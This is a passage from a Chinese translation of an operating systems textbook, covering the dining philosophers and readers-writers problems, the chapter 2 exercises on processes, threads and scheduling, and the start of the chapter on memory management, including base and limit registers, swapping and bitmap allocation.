现在读者可能会想，“如果哲学家在拿不到右边叉子时等待一段随机时间，而不是等待相同的时间，这样发生互锁的可能性就很小了，事情就可以继续了。”这种想法是对的，而且在几乎所有的应用程序中，稍后再试的办法并不会演化成为一个问题。例如，在流行的局域网以太网中，如果两台计算机同时发送包，那么每台计算机等待一段随机时间之后再尝试。在实践中，该方案工作良好。但是，在少数的应用中，人们希望有一种能够始终工作的方案，它不能因为一串不可靠的随机数字而导致失败（想象一下核电站中的安全控制系统）。
对图2-45中的算法可做如下改进，它既不会发生死锁又不会产生饥饿：使用一个二元信号量对调用think之后的五个语句进行保护。在开始拿叉子之前，哲学家先对互斥量mutex执行down操作。在放回叉子后，他再对mutex执行up操作。从理论上讲，这种解法是可行的。但从实际角度来看，这里有性能上的局限：在任何一时刻只能有一位哲学家进餐。而五把叉子实际上可以允许两位哲学家同时进餐。
图2-46中的解法不仅没有死锁，而且对于任意位哲学家的情况都能获得最大的并行度。算法中使用一个数组state跟踪每一个哲学家是在进餐、思考还是饥饿状态（正在试图拿叉子）。一个哲学家只有在两个邻居都没有进餐时才允许进入到进餐状态。第i个哲学家的邻居则由宏LEFT和RIGHT定义，换言之，若i为2，则LEFT为1，RIGHT为3。
该程序使用了一个信号量数组，每个信号量对应一位哲学家，这样在所需的叉子被占用时，想进餐的哲学家就被阻塞。注意，每个进程将过程philosopher作为主代码运行，而其他过程take_forks、put_forks和test只是普通的过程，而非单独的进程。
哲学家就餐问题对于互斥访问有限资源的竞争问题（如I/O设备）一类的建模过程十分有用。另一个著名的问题是读者-写者问题（Courtois等人，1971），它为数据库访问建立了一个模型。例如，设想一个飞机订票系统，其中有许多竞争的进程试图读写其中的数据。多个进程同时读数据库是可以接受的，但如果一个进程正在更新（写）数据库，则所有的其他进程都不能访问该数据库，即使读操作也不行。这里的问题是如何对读者和写者进行编程？图2-47给出了一种解法。
在该解法中，第一个读者对信号量db执行down操作。随后的读者只是递增一个计数器rc。当读者离开时，它们递减这个计数器，而最后一个读者则对信号量执行up，这样就允许一个被阻塞的写者（如果存在的话）可以访问该数据库。
在该解法中，隐含着一个需要注解的条件。假设一个读者正使用数据库，另一个读者来了。同时有两个读者并不存在问题，第二个读者被允许进入。如果有第三个和更多的读者来了也同样允许。
现在，假设一个写者到来。由于写者的访问是排他的，不能允许写者进入数据库，只能被挂起。只要还有一个读者在活动，就允许后续的读者进来。这种策略的结果是，如果有一个稳定的读者流存在，那么这些读者将在到达后被允许进入。而写者就始终被挂起，直到没有读者为止。如果来了新的读者，比如，每2秒钟一个，而每个读者花费5秒钟完成其工作，那么写者就永远没有机会了。
为了避免这种情形，可以稍微改变一下程序的写法：在一个读者到达，且一个写者在等待时，读者在写者之后被挂起，而不是立即允许进入。用这种方式，在一个写者到达时如果有正在工作的读者，那么该写者只要等待这个读者完成，而不必等候其后面到来的读者。该解决方案的缺点是，并发度和效率较低。Courtois等人给出了一个写者优先的解法。详细内容请参阅他的论文。
在第1章里，我们介绍了有关操作系统结构的当前研究工作。在本章和下一章里，我们将更专注于有关进程的研究。随着时间推移，一些问题会比其他问题解决得更好。多数研究倾向于从事新的课题，而不是围绕着有数十年历史的题目进行研究。
作为一个例子，关于进程概念的研究已经获得良好的解决方案。几乎所有的系统都把一个进程视为一个容器，该容器用以聚集相关的资源，如地址空间、线程、打开的文件、保护许可等。不同的系统聚集资源的方式略有差别，但是差别仅在于工程处理方面。基本思想不会有较大的争议，且有关进程的课题也几乎没有新的研究在进行。
线程是比进程更新的概念，但是它们同样也经过了相当多的考虑。仍然偶尔会出现关于线程的论文，例如，关于在多处理器上的线程集群（Tam等人，2007）或是一个进程中的线程数量如何扩展到100 000（Von Behren等人，2003）。
现在，进程同步问题已经相当成熟和固定，但是每隔一段时间还是会有一篇论文，例如关于无锁并发处理的问题（Fraser和Harris，2007）或是实时系统中的无阻塞同步问题（Hohmuth和Haertig，2001）。
调度（单处理器和多处理器）还是一些研究者感兴趣的话题。一些正在研究的主题包括移动设备上的能耗节省调度（Yuan和Nahrstedt，2006）、超线程级调度（Bulpin和Pratt，2005）、当CPU空闲时该做什么（Eggert和Touch，2005）以及虚拟时间调度（Nieh等人，2001）。但是，很少有实际系统的设计者会因为缺乏像样的线程调度算法而整天苦恼，所以这似乎是一个由研究者推动而不是需求推动的研究类型。总而言之，进程、线程与调度不像它们曾经那样，是研究的热点。这些研究已经前进得很多了。
为了隐蔽中断的影响，操作系统提供了一个由并行运行的顺序进程组成的概念模型。进程可以动态地创建和终止。每个进程都有自己的地址空间。
对于某些应用而言，在一个进程中使用多个控制线程是有益的。这些线程被独立调度，每个线程有自己的堆栈，但是在一个进程中的所有线程共享一个公共地址空间。线程可以在用户空间或内核中实现。
进程之间通过进程间通信原语彼此通信，如信号量、管程或消息。这些原语用来确保同一时刻不会有两个进程在临界区中，免除了出现混乱的情形。进程可以处在运行、可运行或阻塞状态，并且在该进程或其他进程执行某个进程间通信原语时，可以改变其状态。线程间通信也是类似的。
进程间通信原语可以用来解决诸如生产者-消费者问题、哲学家就餐问题和读者-写者问题等。即便有了这些原语，也要仔细设计以避免出错和死锁。
已经有一大批研究出来的调度算法。某些算法主要用于批处理系统中，如最短作业优先调度算法。其他算法常用在批处理系统和交互式系统中，它们包括轮转调度、优先级调度、多级队列、保证调度、彩票调度以及公平分享调度等。有些系统将调度策略和调度机制清晰地分离，这样可以使用户对调度算法进行控制。
1.图2-2中给出了三个进程状态。在理论上，三个状态可以有六种转换，每个状态两个。但是，图中只给出了四种转换。有没有可能发生其他两种转换中的一个或两个？
2.假设要设计一种先进的计算机体系结构，它使用硬件而不是中断来完成进程切换。CPU需要哪些信息？请描述用硬件完成进程切换的工作过程。
3.在所有当代计算机中，至少有部分中断处理程序是用汇编语言编写的。为什么？
4.当中断或系统调用把控制转给操作系统时，通常将内核堆栈和被中断进程的运行堆栈分离。为什么？
5.多个作业能够并行运行，比它们顺序执行完成的要快。假设有两个作业同时开始执行，每个需要10分钟的CPU时间。如果顺序执行，那么最后一个作业需要多长时间可以完成？如果并行执行又需要多长时间？假设I/O等待占50%。
6.在本章中说明的图2-11a的模式不适合用于使用内存高速缓存的文件服务器。为什么不适合？每个进程可以有自己的高速缓存吗？
7.如果创建一个多线程进程，若子进程得到全部父进程线程的副本，会出现问题。假如原有线程之一正在等待键盘输入，现在则成为两个线程在等待键盘输入，每个进程有一个。在单线程进程中也会发生这种问题吗？
8.在图2-8中，给出了一个多线程Web服务器。如果读取文件的惟一途径是正常的阻塞read系统调用，那么Web服务器应该使用用户级线程还是内核级线程？为什么？
9.在本章中，我们介绍了多线程Web服务器，说明它比单线程服务器和有限状态机服务器更好的原因。存在单线程服务器更好一些的情形吗？请给出一个例子。
10.在图2-12中寄存器集合按每个线程中的内容列出而不是按每个进程中的内容列出。为什么？毕竟机器只有一套寄存器。
11.为什么线程要通过调用thread_yield自愿放弃CPU？毕竟，由于没有周期性的时钟中断，线程可以不交回CPU。
12.线程可以被时钟中断抢占吗？如果可以，什么情形下可以？如果不可以，为什么不可以？
13.在本习题中，要求对使用单线程文件服务器和多线程文件服务器读取文件进行比较。假设所需要的数据都在块高速缓存中，花费15ms获得工作请求，分派工作，并处理其余必要工作。如果在三分之一时间时，需要一个磁盘操作，要另外花费75ms，此时该线程进入睡眠。在单线程情形下服务器每秒钟可以处理多少个请求？如果是多线程呢？
14.在用户空间实现线程，其最大的优点是什么？最大的缺点是什么？
15.在图2-15中创建线程和线程打印消息是随机交织在一起的。有没有方法可以严格按照以下次序运行：创建线程1，线程1打印消息，线程1结束；创建线程2，线程2打印消息，线程2结束；以此类推。如果有，是什么方法，如果没有请解释原因。
16.在讨论线程中的全局变量时，曾使用过程create_global将存储分配给指向变量的指针，而不是变量自身。这是必需的，还是由于该过程也需要使用这些值？
17.考虑线程全部在用户空间实现的一个系统，其中运行时系统每秒钟得到一个时钟中断。假设在该运行时系统中，当某个线程正在执行时发生一个时钟中断，此时会出现什么问题？你有什么解决该问题的建议吗？
18.假设一个操作系统中不存在类似于select的系统调用来提前了解在从文件、管道或设备中读取时是否安全，不过该操作系统确实允许设置报警时钟，以便中断阻塞的系统调用。在上述条件下，是否有可能在用户空间中实现一个线程包？请加以讨论。
19.在2.3.4节中所讨论的优先级反转问题是否可能在用户级线程中发生？为什么？
20.在2.3.4节中，描述了一种有高优先级进程H和低优先级进程L的情况，导致了H陷入死循环。若采用轮转调度算法而不是优先级调度算法，还会发生同样问题吗？请给予讨论。
21.在使用线程的系统中，若使用用户级线程，是每个线程一个堆栈还是每个进程一个堆栈？如果使用内核级线程情况又如何呢？请给予解释。
22.在开发计算机时，通常首先用一个程序模拟，一次运行一条指令，甚至多处理器也严格按此模拟。在类似于这种没有同时事件发生的情形下，会出现竞争条件吗？
23.两个进程在一个共享存储器多处理器（即两个CPU）上运行，当它们要共享一个公共内存时，图2-23所示的采用变量turn的忙等待解决方案还有效吗？
24.在进程调度是抢占式的情形下，图2-24中展示的互斥问题的Peterson解法能正常工作吗？如果是非抢占式的情况呢？
25.给出一个可以屏蔽中断的操作系统如何实现信号量的框架。
26.请说明计数信号量（即可以保持一个任意值的信号量）如何仅通过二元信号量和普通机器指令实现。
27.如果一个系统只有两个进程，可以使用一个屏障来同步这两个进程吗？为什么？
28.如果线程在内核中实现，可以使用内核信号量对同一个进程中的两个线程进行同步吗？如果线程在用户空间实现呢？假设在其他进程中没有线程必须访问该信号量。请讨论你的答案。
29.管程内的同步机制使用条件变量和两个特殊操作wait和signal。一种更通用的同步形式是只用一条原语waituntil，它以任意的布尔谓词作为参数。例如
waituntil x＜0 or y+z＜n
这样就不再需要signal原语。很显然这一方式比Hoare或Brinch Hansen方案更通用，但它从未被采用过。为什么？提示：请考虑其实现。
30.一个快餐店有四类雇员：（1）领班，接收顾客点的菜单；（2）厨师，准备饭菜；（3）打包工，将饭菜装在袋子里；（4）收银员，将食品袋交给顾客并收钱。每个雇员可被看作一个进行通信的顺序进程。它们采用的进程间通信方式是什么？请将这个模型与UNIX中进程联系起来。
31.假设有一个使用信箱的消息传递系统，当向满信箱发消息或从空信箱收消息时，进程都不会阻塞，相反，会得到一个错误代码。进程响应错误代码的处理方式为一遍一遍地重试，直到成功为止。这种方式会导致竞争条件吗？
32.CDC 6600计算机使用一种称作处理器共享的有趣的轮转调度算法，它可以同时处理多达10个I/O进程。每条指令结束后都进行进程切换，这样进程1执行指令1，进程2执行指令2，以此类推。进程切换由特殊硬件完成，所以没有开销。如果在没有竞争的条件下一个进程需要T秒钟完成，那么当有n个进程共享处理器时完成一个进程需要多长时间？
33.是否可以通过分析源代码来确定进程是CPU密集型的还是I/O密集型的？如何能在运行时刻进行此项决定？
34.在“何时调度”一节中曾提到，有时一个重要进程可以在选择下一个被阻塞进程进入运行的过程中发挥作用，从而改善调度性能。请给出可以这样做的情形并解释如何做。
35.对某系统进行监测后表明，当阻塞在I/O之前时，平均每个进程运行时间为T。一次进程切换需要的时间为S，这里S实际上就是开销。对于采用时间片长度为Q的轮转调度，请给出以下各种情况中CPU利用率的计算公式：
a)Q=∞
b)Q＞T
c)S＜Q＜T
d)Q=S
e)Q趋近于0
36.有5个待运行作业，估计它们的运行时间分别是9，6，3，5和X。采用哪种次序运行这些作业将得到最短的平均响应时间？（答案将依赖于X。）
37.有5个批处理作业A到E，它们几乎同时到达一个计算中心。估计它们的运行时间分别为10，6，2，4和8分钟。其优先级（由外部设定）分别为3，5，2，1和4，其中5为最高优先级。对于下列每种调度算法，计算其平均进程周转时间，可忽略进程切换的开销。
a)轮转法。
b)优先级调度。
c)先来先服务（按照10，6，2，4，8次序运行）。
d)最短作业优先。
对a)，假设系统具有多道程序处理能力，每个作业均公平共享CPU时间，对b)到d)，假设任一时刻只有一个作业运行，直到结束。所有的作业都完全是CPU密集型作业。
38.运行在CTSS上的一个进程需要30个时间片完成。该进程必须被调入多少次，包括第一次（在该进程运行之前）？
39.能找到一个使CTSS优先级系统不受随机回车链愚弄的方法吗？
40.a=1/2的老化算法用来预测运行时间。先前的四次运行，从最老的一个到最近的一个，其运行时间分别是40ms，20ms，40ms和15ms。下一次的预测时间是多少？
41.一个软实时系统有4个周期时间，其周期分别为50ms，100ms，200ms和250ms。假设这4个事件分别需要35ms，20ms，10ms和x ms的CPU时间。保持系统可调度的最大x值是多少？
42.请解释为什么两级调度比较常用。
43.一个实时系统需要处理两个语音通信，每个运行5ms，然后每次突发消耗1ms CPU时间，加上25帧/秒的一个视频，每一帧需要20ms的CPU时间。这个系统是可调度的吗？
44.考虑一个系统，在这个系统中为了内核线程调度希望将策略和机制分离。请提出一个实现此目标的手段。
45.在哲学家就餐问题的解法（图2-46）中，为什么在过程take_forks中将状态变量置为HUNGRY？
46.考虑图2-46中的过程put_forks，假设变量state[i]在对test的两次调用之后而不是之前被置为THINKING。这个改动会对解法有什么影响？
47.按照哪一类进程何时开始，读者-写者问题可以有若干种方式求解。请详细描述该问题的三种变体，每一种变体偏好（或不偏好）某一类进程。对每种变体，请指出当一个读者或写者访问数据库时会发生什么，以及当一个进程结束对数据库的访问后又会发生什么？
48.请编写一个shell脚本，通过读取文件的最后一个数字，对之加1，然后再将该数字附在该文件上，从而生成顺序数文件。在后台和前台分别运行该脚本的一个实例，每个实例访问相同的文件。需要多长时间才出现竞争条件？临界区是什么？请修改该脚本以避免竞争（提示：使用In file file.lock锁住数据文件。）
49.假设有一个提供信号量的操作系统。请实现一个消息系统，编写发送和接收消息的过程。
50.使用管程而不是信号量来解决哲学家就餐问题。
51.假设一个大学为了卖弄其政治上的正确性，准备把美国最高法院的信条“平等但隔离其本身就是不平等（Separate but equal is inherently unequal）”既运用在种族上也运在性别上，从而结束校园内长期使用的浴室按性别隔离的做法。但是，为了迁就传统习惯，学校颁布法令：当有一个女生在浴室里，那么其他女生可以进入，但是男生不行，反之亦然。在每个浴室的门上有一个滑动指示符号，表示当前处于以下三种可能状态之一：
·空。
·有女生。
·有男生。
用你偏好的程序设计语言编写下面的过程：woman_wants_to_enter，man_wants_to_enter，woman_leaves，man_leaves。可以随意采用所希望的计数器和同步技术。
52.重写图2-23中的程序，以便能够处理两个以上的进程。
53.编写一个使用线程并共享一个公共缓冲区的生产者-消费者问题。但是，不要使用信号量或任何其他用来保护共享数据结构的同步原语。直接让每个线程在需要访问时就访问。使用sleep和wakeup来处理满和空的条件。观察需要多长时间会出现严重的竞争条件。例如，可以让生产者一会儿打印一个数字，每分钟打印不要超过一个数字，因为I/O会影响竞争条件。
内存（RAM）是计算机中一种需要认真管理的重要资源。就目前来说，虽然一台普通家用计算机的内存容量已经是20世纪60年代早期全球最大的计算机IBM 7094的内存容量的10 000倍以上，但是程序大小的增长速度比内存容量的增长速度要快得多。正如帕金森定律所指出的：“不管存储器有多大，程序都可以把它填满”。在这一章中，我们将讨论操作系统是怎样对内存创建抽象模型以及怎样管理内存的。
每个程序员都梦想拥有这样的内存：它是私有的、容量无限大的、速度无限快的，并且是永久性的存储器（即断电时不会丢失数据）。当我们期望这样的内存时，何不进一步要求它价格低廉呢？遗憾的是，目前的技术还不能为我们提供这样的内存。也许你会有解决方案。
除此之外的选择是什么呢？经过多年探索，人们提出了“分层存储器体系”（memory hierarchy）的概念，即在这个体系中，计算机有若干兆（MB）快速、昂贵且易失性的高速缓存（cache），数千兆（GB）速度与价格适中且同样易失性的内存，以及几兆兆（TB）低速、廉价、非易失性的磁盘存储，另外还有诸如DVD和USB等可移动存储装置。操作系统的工作是将这个存储体系抽象为一个有用的模型并管理这个抽象模型。
操作系统中管理分层存储器体系的部分称为存储管理器（memory manager）。它的任务是有效地管理内存，即记录哪些内存是正在使用的，哪些内存是空闲的；在进程需要时为其分配内存，在进程使用完后释放内存。
本章我们会研究几个不同的存储管理方案，涵盖非常简单的方案到高度复杂的方案。由于最底层的高速缓存的管理由硬件来完成，本章将集中介绍针对编程人员的内存模型，以及怎样优化管理内存。至于永久性存储器——磁盘——的抽象和管理，则是下一章的主题。我们会从最简单的管理方案开始讨论，并逐步深入到更为缜密的方案。
最简单的存储器抽象就是根本没有抽象。早期大型计算机（20世纪60年代之前）、小型计算机（20世纪70年代之前）和个人计算机（20世纪80年代之前）都没有存储器抽象。每一个程序都直接访问物理内存。当一个程序执行如下指令：
MOV REGISTER1,1000
计算机会将位置为1000的物理内存中的内容移到REGISTER1中。因此，那时呈现给编程人员的存储器模型就是简单的物理内存：从0到某个上限的地址集合，每一个地址对应一个可容纳一定数目二进制位的存储单元，通常是8个。
在这种情况下，要想在内存中同时运行两个程序是不可能的。如果第一个程序在2000的位置写入一个新的值，将会擦掉第二个程序存放在相同位置上的所有内容，所以同时运行两个程序是根本行不通的，这两个程序会立刻崩溃。
不过即使存储器模型就是物理内存，还是存在一些可行选项的。图3-1展示了三种变体。在图3-1a中，操作系统位于RAM（随机访问存储器）的底部；在图3-1b中，操作系统位于内存顶端的ROM（只读存储器）中；而在图3-1c中，设备驱动程序位于内存顶端的ROM中，而操作系统的其他部分则位于下面的RAM的底部。第一种方案以前被用在大型机和小型计算机上，现在很少使用了。第二种方案被用在一些掌上电脑和嵌入式系统中。第三种方案用于早期的个人计算机中（例如运行MS-DOS的计算机），在ROM中的系统部分称为BIOS（Basic Input Output System，基本输入输出系统）。第一种方案和第三种方案的缺点是用户程序出现的错误可能摧毁操作系统，引发灾难性后果（比如篡改磁盘）。
当按这种方式组织系统时，通常同一个时刻只能有一个进程在运行。一旦用户键入了一个命令，操作系统就把需要的程序从磁盘复制到内存中并执行；当进程运行结束后，操作系统在用户终端显示提示符并等待新的命令。收到新的命令后，它把新的程序装入内存，覆盖前一个程序。
在没有内存抽象的系统中实现并行的一种方法是使用多线程来编程。由于在引入线程时就假设一个进程中的所有线程对同一内存映像都可见，那么实现并行也就不是问题了。虽然这个想法行得通，但却没有被广泛使用，因为人们通常希望能够在同一时间运行没有关联的程序，而这正是线程抽象所不能提供的。更进一步地，一个没有内存抽象的系统也不大可能具有线程抽象的功能。
在不使用内存抽象的情况下运行多道程序
但是，即使没有内存抽象，同时运行多个程序也是可能的。操作系统只需要把当前内存中所有内容保存到磁盘文件中，然后把下一个程序读入到内存中再运行即可。只要在某一个时间内存中只有一个程序，那么就不会发生冲突。这样的交换概念会在下面讨论。
在特殊硬件的帮助下，即使没有交换功能，并发地运行多个程序也是可能的。IBM 360的早期模型是这样解决的：内存被划分为2KB的块，每个块被分配一个4位的保护键，保护键存储在CPU的特殊寄存器中。一个内存为1MB的机器只需要512个这样的4位寄存器，容量总共为256字节。PSW（Program Status Word，程序状态字）中存有一个4位码。一个运行中的进程如果访问保护键与其PSW码不同的内存，360的硬件会捕获到这一事件。因为只有操作系统可以修改保护键，这样就可以防止用户进程之间、用户进程和操作系统之间的互相干扰。
然而，这种解决方法有一个重要的缺陷。如图3-2所示，假设我们有两个程序，每个大小各为16KB，如图3-2a和图3-2b所示。前者加了阴影表示它和后者使用不同的内存键。第一个程序一开始就跳转到地址24，那里是一条MOV指令。第二个程序一开始跳转到地址28，那里是一条CMP指令。与讨论无关的指令没有画出来。当两个程序被连续地装载到内存中从0开始的地址时，内存中的状态就如同图3-2c所示。在这个例子里，我们假设操作系统是在高地址处，图中没有画出来。
程序装载完毕之后就可以运行了。由于它们的内存键不同，它们不会破坏对方的内存。但在另一方面会发生问题。当第一个程序开始运行时，它执行了JMP 24指令，然后不出预料地跳转到了相应的指令，这个程序会正常运行。
但是，当第一个程序已经运行了一段时间后，操作系统可能会决定开始运行第二个程序，即装载在第一个程序之上的地址16 384处的程序。这个程序的第一条指令是JMP 28，这条指令会使程序跳转到第一个程序的ADD指令，而不是事先设定的跳转到CMP指令。由于对内存地址的不正确访问，这个程序很可能在1秒之内就崩溃了。
这里关键的问题是这两个程序都引用了绝对物理地址，而这正是我们最需要避免的。我们希望每个程序都使用一套私有的本地地址来进行内存寻址。下面我们会展示这种技术是如何实现的。IBM 360对上述问题的补救方案就是在第二个程序装载到内存的时候，使用静态重定位的技术修改它。它的工作方式如下：当一个程序被装载到地址16 384时，常数16 384被加到每一个程序地址上。虽然这个机制在不出错误的情况下是可行的，但这不是一种通用的解决办法，同时会减慢装载速度。而且，它要求给所有的可执行程序提供额外的信息来区分哪些内存字中存有（可重定位的）地址，哪些没有。毕竟，图3-2b中的“28”需要被重定位，但是像
MOV REGISTER1，28
这样把数28送到REGISTER1的指令不可以被重定位。装载器需要一定的方法来辨别地址和常数。
最后，正如我们在第1章中指出的，计算机世界的发展总是倾向于重复历史。虽然直接引用物理地址对于大型计算机、小型计算机、台式计算机和笔记本电脑来说已经成为很久远的记忆了（对此我们深表遗憾），但是缺少内存抽象的情况在嵌入式系统和智能卡系统中还是很常见的。现在，像收音机、洗衣机和微波炉这样的设备都已经完全被（ROM形式的）软件控制，在这些情况下，软件都采用访问绝对内存地址的寻址方式。在这些设备中这样能够正常工作是因为，所有运行的程序都是可以事先确定的，用户不可能在烤面包机上自由地运行他们自己的软件。
虽然高端的嵌入式系统（比如手机）有复杂的操作系统，但是一般的简单嵌入式系统并非如此。在某些情况下可以用一种简单的操作系统，它只是一个被链接到应用程序的库，该库为程序提供I/O和其他任务所需要的系统调用。操作系统作为库实现的常见例子如流行的e-cos操作系统。
总之，把物理地址暴露给进程会带来下面几个严重问题。第一，如果用户程序可以寻址内存的每个字节，它们就可以很容易地（故意地或偶然地）破坏操作系统，从而使系统慢慢地停止运行（除非有特殊的硬件进行保护，如IBM 360的锁键模式）。即使在只有一个用户进程运行的情况下，这个问题也是存在的。第二，使用这种模型，想要同时（如果只有一个CPU就轮流执行）运行多个程序是很困难的。在个人计算机上，同时打开几个程序是很常见的（一个文字处理器，一个邮件程序，一个网络浏览器，其中一个当前正在工作，其余的在按下鼠标的时候才会被激活）。在系统中没有对物理内存的抽象的情况下，很难做到上述情景，因此，我们需要其他办法。
要保证多个应用程序同时处于内存中并且不互相影响，则需要解决两个问题：保护和重定位。我们来看一个原始的对前者的解决办法，它曾被用在IBM 360上：给内存块标记上一个保护键，并且比较执行进程的键和其访问的每个内存字的保护键。然而，这种方法本身并没有解决后一个问题，虽然这个问题可以通过在程序被装载时重定位程序来解决，但这是一个缓慢且复杂的解决方法。
一个更好的办法是创造一个新的内存抽象：地址空间。就像进程的概念创造了一类抽象的CPU以运行程序一样，地址空间为程序创造了一种抽象的内存。地址空间是一个进程可用于寻址内存的一套地址集合。每个进程都有一个自己的地址空间，并且这个地址空间独立于其他进程的地址空间（除了在一些特殊情况下进程需要共享它们的地址空间外）。
地址空间的概念非常通用，并且在很多场合中出现。比如电话号码，在美国和很多其他国家，一个本地电话号码通常是一个7位的数字。因此，电话号码的地址空间是从0 000 000到9 999 999，虽然一些号码并没有被使用，比如以000开头的号码。随着手机、调制解调器和传真机数量的增长，这个空间变得越来越不够用了，从而导致需要使用更多位数的号码。Pentium的I/O端口的地址空间从0到16 383。IPv4的地址是32位的数字，因此它们的地址空间从0到232 -1（也有一些保留数字）。
地址空间可以不是数字的。一套“.com”的互联网域名也是地址空间。这个地址空间是由所有包含2～63个字符并且后面跟着“.com”的字符串组成的，组成这些字符串的字符可以是字母、数字和连字符。到现在你应该已经明白地址空间的概念了。它是很简单的。
比较难的是给每个程序一个自己的地址空间，使得一个程序中的地址28所对应的物理地址与另一个程序中的地址28所对应的物理地址不同。下面我们将讨论一个简单的方法，这个方法曾经很常见，但是在有能力把更复杂（而且更好）的机制运用在现代CPU芯片上之后，这个方法就不再使用了。
基址寄存器与界限寄存器
这个简单的解决办法使用一种简单的动态重定位。它所做的是简单地把每个进程的地址空间映射到物理内存的不同部分。从CDC 6600（世界上最早的超级计算机）到Intel 8088（原始IBM PC的心脏），所使用的经典办法是给每个CPU配置两个特殊硬件寄存器，通常叫做基址寄存器和界限寄存器。当使用基址寄存器和界限寄存器时，程序装载到内存中连续的空闲位置且装载期间无须重定位，如图3-2c所示。当一个进程运行时，程序的起始物理地址装载到基址寄存器中，程序的长度装载到界限寄存器中。在图3-2c中，当第一个程序运行时，装载到这些硬件寄存器中的基址和界限值分别是0和16 384。当第二个程序运行时，这些值分别是16 384和32 768。如果第三个16KB的程序被直接装载在第二个程序的地址之上并且运行，这时基址寄存器和界限寄存器里的值会是32 768和16 384。
每次一个进程访问内存，取一条指令，读或写一个数据字，CPU硬件会在把地址发送到内存总线前，自动把基址值加到进程发出的地址值上。同时，它检查程序提供的地址是否等于或大于界限寄存器里的值。如果访问的地址超过了界限，会产生错误并中止访问。这样，对图3-2c中第二个程序的第一条指令，程序执行
JMP 28
指令，但是硬件把这条指令解释成为
JMP 16412
所以程序如我们所愿地跳转到了CMP指令。在图3-2c中第二个程序的执行过程中，基址寄存器和界限寄存器的设置如图3-3所示。
使用基址寄存器和界限寄存器是给每个进程提供私有地址空间的非常容易的方法，因为每个内存地址在送到内存之前，都会自动先加上基址寄存器的内容。在很多实际系统中，对基址寄存器和界限寄存器会以一定的方式加以保护，使得只有操作系统可以修改它们。在CDC 6600中就提供了对这些寄存器的保护，但在Intel 8088中则没有，甚至没有界限寄存器。但是，Intel 8088提供了多个基址寄存器，使程序的代码和数据可以被独立地重定位，但是没有提供引用地址越界的预防机制。
使用基址寄存器和界限寄存器重定位的缺点是，每次访问内存都需要进行加法和比较运算。比较可以做得很快，但是加法由于进位传递时间的问题，在没有使用特殊电路的情况下会显得很慢。
如果计算机物理内存足够大，可以保存所有进程，那么之前提及的所有方案都或多或少是可行的。但实际上，所有进程所需的RAM数量总和通常要远远超出存储器能够支持的范围。在一个典型的Windows或Linux系统中，在计算机完成引导后，会启动40～60个，甚至更多的进程。例如，当一个Windows应用程序安装后，通常会发出一系列命令，使得在此后的系统引导中会启动一个仅仅用于查看该应用程序更新的进程。这样一个进程会轻易地占据5～10MB的内存。其他后台进程还会查看所收到的邮件和进来的网络连接，以及其他很多诸如此类的任务。并且，这一切都发生在第一个用户程序启动之前。当前重要的应用程序能轻易地占据50～200MB甚至更多的空间。因此，把所有进程一直保存在内存中需要巨大的内存，如果内存不够，就做不到这一点。
有两种处理内存超载的通用方法。最简单的策略是交换（swapping）技术，即把一个进程完整调入内存，使该进程运行一段时间，然后把它存回磁盘。空闲进程主要存储在磁盘上，所以当它们不运行时就不会占用内存（尽管它们的一些进程会周期性地被唤醒以完成相关工作，然后就又进入睡眠状态）。另一种策略是虚拟内存（virtual memory），该策略甚至能使程序在只有一部分被调入内存的情况下运行。下面我们先讨论交换技术，3.3节我们将考察虚拟内存。
交换系统的操作如图3-4所示。开始时内存中只有进程A。之后创建进程B和C或者从磁盘将它们换入内存。图3-4d显示A被交换到磁盘。然后D被调入，B被调出，最后A再次被调入。由于A的位置发生变化，所以在它换入的时候通过软件或者在程序运行期间（多数是这种情况）通过硬件对其地址进行重定位。例如，在这里可以很好地使用基址寄存器和界限寄存器。
交换在内存中产生了多个空闲区（hole，也称为空洞），通过把所有的进程尽可能向下移动，有可能将这些小的空闲区合成一大块。该技术称为内存紧缩（memory compaction）。这个操作通常不进行，因为它要耗费大量的CPU时间。例如，一台有1GB内存的计算机可以每20ns复制4个字节，它紧缩全部内存大约要花费5s。
有一个问题值得注意，即当进程被创建或换入时应该为它分配多大的内存。若进程创建时其大小是固定的并且不再改变，则分配很简单，操作系统准确地按其需要的大小进行分配，不多也不少。
但是如果进程的数据段可以增长，例如，很多程序设计语言都允许从堆中动态地分配内存，那么当进程空间试图增长时，就会出现问题。若该进程与一个空闲区相邻，那么可把该空闲区分配给该进程让它在这个空闲区增大。另一方面，若进程相邻的是另一个进程，那么要么把需要增长的进程移到内存中一个足够大的区域中去，要么把一个或多个进程交换出去，以便生成一个足够大的空闲区。若一个进程在内存中不能增长，而且磁盘上的交换区也已满了，那么这个进程只有挂起直到一些空间空闲（或者可以结束该进程）。
如果大部分进程在运行时都要增长，为了减少因内存区域不够而引起的进程交换和移动所产生的开销，一种可用的方法是，当换入或移动进程时为它分配一些额外的内存。然而，当进程被换出到磁盘上时，应该只交换进程实际上使用的内存中的内容，将额外的内存交换出去是一种浪费。在图3-5a中读者可以看到一种已为两个进程分配了增长空间的内存配置。
如果进程有两个可增长的段，例如，供变量动态分配和释放的作为堆使用的一个数据段，以及存放普通局部变量与返回地址的一个堆栈段，则可使用另一种安排，如图3-5b所示。在图中可以看到所示进程的堆栈段在进程所占内存的顶端并向下增长，紧接在程序段后面的数据段向上增长。在这两者之间的内存可以供两个段使用。如果用完了，进程或者必须移动到足够大的空闲区中（它可以被交换出内存直到内存中有足够的空间），或者结束该进程。
在动态分配内存时，操作系统必须对其进行管理。一般而言，有两种方式跟踪内存使用情况：位图和空闲链表。下面我们将介绍这两种方式。
1.使用位图的存储管理
使用位图方法时，内存可能被划分成小到几个字或大到几千字节的分配单元。每个分配单元对应于位图中的一位，0表示空闲，1表示占用（或者相反）。一块内存区和其对应的位图如图3-6所示。
分配单元的大小是一个重要的设计因素。分配单元越小，位图越大。然而即使只有4个字节大小的分配单元，32位的内存也只需要位图中的1位；32n位的内存需要n位的位图，所以位图只占用了1/33的内存。若选择比较大的分配单元，则位图更小。但若进程的大小不是分配单元的整数倍，那么在最后一个分配单元中就会有一定数量的内存被浪费了。
因为内存的大小和分配单元的大小决定了位图的大小，所以它提供了一种简单的利用一块固定大小的内存区就能对内存使用情况进行记录的方法。这种方法的主要问题是，在决定把一个占k个分配单元的进程调入内存时，存储管理器必须搜索位图，在位图中找出有k个连续0的串。查找位图中指定长度的连续0串是耗时的操作（因为在位图中该串可能跨越字的边界），这是位图的缺点。
2.使用链表的存储管理
